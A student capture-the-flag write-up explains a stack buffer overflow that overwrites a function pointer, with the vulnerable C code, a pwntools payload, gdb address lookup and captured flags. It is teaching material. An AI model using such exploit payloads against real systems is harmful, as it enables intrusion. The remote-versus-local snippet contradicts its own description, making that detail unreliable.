


# CTF 3 - Week 5 - Buffer Overflow (Stack)

## Reconnaissance (Local execution)

To get familiar with the program, its code and the exploit, we first analyzed and ran it locally.

Question 1: Is there a file that is opened and read by the program?
Answer 1: In the `main.c` file, the `readtxt()` function is called, receiving a file name as an argument, which appends the `.txt` extension to the file name and runs the `cat` command on it using a `system()` call. In `main.c` the file opened is "rules.txt".

```c
int readtxt(char* name){
  char command[15];
  sprintf(command,"cat %s.txt\0",name);
  system(command);
  return 0;
}
```

Question 2: Is there any way to control which file is opened?
Answer 2: Yes, due to the fact that the functions are called in `main()` using a function pointer, we can try and control the argument passed to it, so that the `readtxt()` function opens a file of our choosing.

```c
void(*fun)(char*);
// ...
fun = &readtxt;
(*fun)("rules");
```

Question 3: Is there a buffer-overflow? If so, what can you do?
Answer 3: Yes, the `scanf()` call in the `main()` function reads up to 45 characters and stores them into the `buffer` variable, which is only 32 characters long. This means that we can overflow the buffer and change the function pointer to a function of our choosing (currently it's pointing to the echo() function, which doesn't suit our needs), such as `readtxt()`, as well as providing the `flag` file as an argument.

```c
char buffer[32];
// ...
fun=&echo;
// ...
scanf("%45s", &buffer);
(*fun)(buffer);
```

More concretely, the function pointer `fun` is stored immediately buffer the `buffer` variable in memory - in a higher memory address -, so we can overflow the buffer and change the function pointer to `readtxt()` by preparing the following input in the `exploit-template.py` script:

```python
file_name = b"flag\0"
padding = b"\x90"*(32-len(file_name))
readtxt_addr = p32() # argument is the address of the readtxt() function in little-endian representation

payload =  file_name +  padding + readtxt_addr
```

The rest of the script just waits for the program to ask for input and sends the payload, as well as receiving the output of the `cat` command and printing it.

To obtain the address of the `readtxt()` function, we can use the `gdb` debugger to run the program and print the address of the function. Once the debugger is started, with `gdb ./program`, we can set a breakpoint at the `main()` function and run the program. When the breakpoint is hit, we can print the address of the `readtxt()` function.

```bash
break main
run
p &readtxt
```

From the output, we obtained `0x80497a5`, which has omitted a leading zero, so we add it to the address: `0x080497a5` and convert it to little-endian representation, `"\xa5\x97\x04\x08"`, using the `p32()` function from the `pwn` library.

By running the script `exploit-template.py`, the `program` executable whose source code is in `main.c` will be executed with the `process` function from the `pwn` library, and the `flag` file's content will be printed - `flag{test}`:


Image 1: Running the exploit script on the local machine

## Exploiting the vulnerability (remotely)

Given that the payload is working locally, we can try to run it on the remote server. The `exploit-template.py` script is modified to connect to the remote server:

```python
# Changed from:
r = remote('ctf-fsi.fe.up.pt', 4000)
# To:
r = process('./program')
```

After running it, the output is `flag{4dm1n_fun_w45_0wn3d}`. After submitting it in the corresponding CTF challenge, we successfully completed it!


Image 2: Running the exploit script on the remote server
